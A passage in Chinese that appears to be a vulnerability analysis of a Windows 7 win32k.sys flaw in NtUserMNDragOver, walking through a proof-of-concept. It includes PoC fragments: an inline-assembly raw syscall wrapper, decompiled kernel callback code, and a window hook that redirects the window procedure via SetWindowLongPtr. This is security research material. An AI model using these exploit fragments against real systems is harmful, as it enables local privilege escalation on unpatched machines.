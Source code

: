 此时iMenuCreated的值已经变成了2，if语句中的代码将会被执行，并将bOnDraging设置为TRUE，表明拖拽操作已由鼠标完成，然后用POINT结构体pt来调用callNtUserMNDragOverSysCall()。

callNtUserMNDragOverSysCall()是win32k.sys中一个针对系统调用函数NtUserMNDragOver()的封装函数，在Windows 7和Windows 7 SP1中NtUserMNDragOver()的系统调用号为0x11ED。在PoC中，使用了系统调用来从user32.dll中获取NtUserMNDragOver()的地址（因为不同操作系统版本的系统调用号不同），每当user32.dll更新，user32.dll中的导出函数和NtUserMNDragOver()函数都会改变。

```
void callNtUserMNDragOverSysCall(LPVOID address1, LPVOID address2) `{`
_asm `{`
mov eax, 0x11ED
push address2
push address1
mov edx, esp
int 0x2E
pop eax
pop eax
`}`
`}`
```

接下来，NtUserMNDragOver()会调用xxxMNFindWindowFromPoint()，并执行xxxSendMessage()来发送一个类型为WM_MN_FINDMENUWINDOWFROMPOINT的用户模式回调。用户模式回调的返回值会使用HMValidateHandle()来检测。

```
LONG_PTR __stdcall xxxMNFindWindowFromPoint(tagPOPUPMENU pPopupMenu, UINT pIndex, POINTS screenPt)
`{`
….
v6 = xxxSendMessage(
var_pPopupMenu-&gt;spwndNextPopup,
MN_FINDMENUWINDOWFROMPOINT,
(WPARAM)&amp;pPopupMenu,
(unsigned __int16)screenPt.x | ((unsigned int )&amp;screenPt &gt;&gt; 16 &lt;&lt; 16)); // Make the
// MN_FINDMENUWINDOWFROMPOINT usermode callback
// using the address of pPopupMenu as the
// wParam argument.
ThreadUnlock1();
if ( IsMFMWFPWindow(v6) ) // Validate the handle returned from the user
// mode callback is a handle to a MFMWFP window.
v6 = (LONG_PTR)HMValidateHandleNoSecure((HANDLE)v6, TYPE_WINDOW); // Validate that the returned
// handle is a handle to
// a window object. Set v1 to
// TRUE if all is good.
…
```

回调执行后，窗口钩子函数WindowHookProc()将会执行。这个函数会判断当前接收到的窗口消息类型，如果收到的窗口消息为WM_MN_FINDMENUWINDOWFROMPOINT消息，那么下列代码将会执行：

```
if ((cwp-&gt;message == WM_MN_FINDMENUWINDOWFROMPOINT))
`{`
bIsDefWndProc = FALSE;
printf(“[] HWND: %p n”, cwp-&gt;hwnd);
SetWindowLongPtr(cwp-&gt;hwnd, GWLP_WNDPROC, (ULONG64)SubMenuProc);
`}`
return CallNextHookEx(0, code, wParam, lParam);
```
